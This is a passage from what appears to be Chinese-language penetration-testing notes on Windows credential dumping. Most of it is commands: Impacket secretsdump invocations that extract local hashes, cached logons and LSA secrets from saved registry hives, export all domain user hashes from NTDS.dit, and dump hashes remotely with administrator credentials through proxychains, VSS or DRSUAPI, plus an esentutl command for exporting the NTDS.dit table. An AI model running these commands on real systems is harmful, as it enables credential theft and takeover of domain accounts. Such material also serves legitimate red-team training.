     secretsdump.py -sam sam.save -system system.save LOCAL
    
        

获取security.save中缓存的登陆用户凭证和LSA Secres

    secretsdump.py -security security.save -system system.save LOCAL
    
        

获取sam security 中所有内容

    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    
        

**2）域用户hash导出**

域用户hash导出还需要NTDS.dit活动目录数据库文件，具体导出方法请查看gitbook《转储域账 户哈希值》

使用以下命令导出域所有用户hash

    python secretsdump.py -ntds NTDS.dit -system SYSTEM LOCAL -outputfile
    lol.hash 
    
        

    secretsdump.exe -ntds NTDS.dit -system temp_sys.hiv LOCAL-outputfile lol.hash
    
        

    proxychains python secretsdump.py rootkit/administrator@192.168.x.x
    
        

3）远程导出hash

secretsdump还支持远程导岀hash，支持socks代理传输数据，需提供远程服务器管理员账号凭证，支持两种方式读取活动目录数据库，Vssadmin和DRSUAPI(Directory Replication Service API)远程目录复制协议api

secretsdump远程导出hash参数介绍

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201002202641685.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
导出远程机hash及缓存记录

    secretsdump.exe rootkit/administrator@192.168.x.x
    
        

使用 Vssadmin复制用户数据库文件的方式进行远程hash导出

    secretsdump.exe rootkit/administrator@192.168.x.x -just-dc -use-vss
    
        

###### Esentutl

esentutl常用于从dit文件提取域内信息的工具，具体使用命令：

    esentutl.exe NTDS.dit export-table datatable >log.txt
    
        

###### Ticket

    https://wh0ale.github.io/2018/12/25/2018-12-25-域渗透之票据/
    
        
